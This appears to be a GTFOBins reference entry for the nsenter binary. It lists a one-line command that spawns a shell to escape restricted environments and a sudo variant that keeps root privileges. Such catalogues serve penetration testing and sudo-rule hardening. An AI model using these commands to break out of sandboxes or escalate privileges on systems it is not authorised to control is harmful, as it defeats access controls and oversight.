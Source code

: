 # GTFOBin: nsenter

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
nsenter /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo nsenter /bin/sh
```